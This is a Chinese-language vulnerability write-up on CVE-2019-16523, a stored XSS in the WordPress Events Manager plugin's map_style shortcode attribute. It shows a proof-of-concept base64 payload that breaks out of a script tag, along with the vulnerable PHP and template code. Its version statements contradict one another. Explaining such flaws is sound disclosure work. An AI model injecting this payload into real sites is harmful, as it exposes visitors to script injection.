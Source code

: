 # （CVE-2019-16523）WordPress Plugin - Events Manager 储存型 xss

> 原文：[http://book.iwonder.run/0day/Wordpress/3.html](http://book.iwonder.run/0day/Wordpress/3.html)

## 一、漏洞简介

WordPress 的 5.9.5 版以上的事件管理器插件（又名“事件管理器”）容易受到存储的 XSS 的影响，这是由于编码不正确和插入提供给该插件提供的短码属性 map_style（locations_map 和 events_map）的数据所致。

## 二、漏洞影响

wordpress <= 5.9.5

## 三、复现过程

### 1、利用过程

要利用此漏洞，攻击者需要创建或编辑帖子并插入上面提到的短代码之一。在此示例中，我们使用 locations_map 简码并将属性设置 map_style 为的 base64 编码值

```
{"a":"test\"</script><script>alert(1)</script>"}。 
```

这将导致以下简码：

```
[locations_map test="" map_style="eyJhIjoidGVzdFwiPC9zY3JpcHQ+PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0PiJ9Cg=="] 
```

然后可以将该短代码插入到帖子中，然后由恶意用户发布。任何访问该职位的人都会受到有效载荷的影响，因此是 XSS 攻击的受害者。

### 2、详细分析

Events Manager 插件提供了用于创建地图小部件的短代码，例如用于显示事件的位置。通过 map_style 使用简码中的属性提供自定义样式，可以直观地调整这些地图。为了防止 XSS ，在 shortcode 属性内使用 HTML 受到限制。但是，在这种情况下，可以注入任意 HTML 和 JavaScript，因为该 map_style 属性需要一个以 base64 编码的 JSON 对象。这允许绕过消毒。简码 locations_map 和 events_map 受此问题影响：

在 em-shortcode.php（第 43-56 行），我们可以看到该属性是经过 base64 解码的，然后使用 json_decode 进行了解析。如果 JSON 语法有效，则将删除空格并将对象作为 map_json_style 变量传递到模板。请参见下面的代码段：

```
//add JSON style to map
$style = '';
if( !empty($args['map_style']) ){
    $style= base64_decode($args['map_style']);
    $style_json= json_decode($style);
    if( is_array($style_json) || is_object($style_json) ){
        $style = preg_replace('/[\r\n\t\s]/', '', $style);
    }else{
        $style = '';
    }
    unset($args['map_style']);
}
ob_start();
em_locate_template('templates/map-global.php',true, array('args'=>$args, 'map_json_style' => $style)); 
```

在 templates/templates/map-global.php（第 16-21 行）中，变量无需进一步编码即可插入脚本标签内：

```
<script type="text/javascript">
    if( typeof EM == 'object'){
        if( typeof EM.google_map_id_styles != 'object' ) EM.google_map_id_styles = [];
        EM.google_map_id_styles['<?php echo $args['random_id']; ?>'] = <?php echo $map_json_style; ?>;
    }
</script> 
```

这样就完美的构成了 xss payload


